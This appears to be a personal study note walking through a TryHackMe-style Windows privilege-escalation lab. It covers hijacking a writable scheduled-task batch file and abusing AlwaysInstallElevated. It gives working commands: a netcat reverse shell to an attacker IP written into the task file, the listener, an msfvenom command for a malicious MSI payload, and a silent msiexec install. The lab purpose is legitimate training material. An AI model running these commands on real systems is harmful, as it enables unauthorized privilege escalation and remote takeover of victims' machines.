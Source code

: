 ## Scheduled Tasks

   - Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

>**Scheduled tasks can be listed from the command line using the `schtasks` command without any options.**
```powershell
schtasks
```

>**To retrieve detailed information about any of the services, you can use a command like the following one:**
```powershell
C:\> schtasks /query /tn vulntask /fo list /v 

Folder: \ 
HostName: THM-PC1 
TaskName: \vulntask 
Task To Run: C:\tasks\schtask.bat 
Run As User: taskusr1
```
   - "Task to Run" parameter which indicates what gets executed by the scheduled task.
   - The "Run As User" parameter, which shows the user that will be used to execute the task.

*If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation.*

>To check the file permissions on the executable, we use `icacls`:
```powershell
C:\> icacls C:\tasks\schtask.bat 
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F) 
	BUILTIN\Administrators:(I)(F) 
	BUILTIN\Users:(I)(F)
```
   - As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like.
   - For your convenience, `nc64.exe` can be found on `C:\tools`

**Let's change the bat file to spawn a reverse shell:**
```powershell
C:\> echo c:\tools\nc64.exe -e cmd.exe 10.17.47.177 4444 > C:\tasks\schtask.bat
```

**We then start a listener on the attacker machine on the same port we indicated on our reverse shell:**
```sh
nc -lvp 4444
```
   - The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges.
   - While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger.

**We have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:**
```sh
C:\> schtasks /run /tn vulntask
```

**And you will receive the reverse shell with taskusr1 privileges as expected:**
```sh
user@attackerpc$ nc -lvp 4444 
Listening on 0.0.0.0 4444 
Connection received on 10.10.175.90 50649 Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>whoami 
wprivesc1\taskusr1
```

## AlwaysInstallElevated

   - Windows installer files (also known as .msi files) are used to install applications on the system. 
   - They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

**This method requires two registry values to be set. You can query these from the command line using the commands below.**
```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible.

**If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:**
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

**As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:**
```powershell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

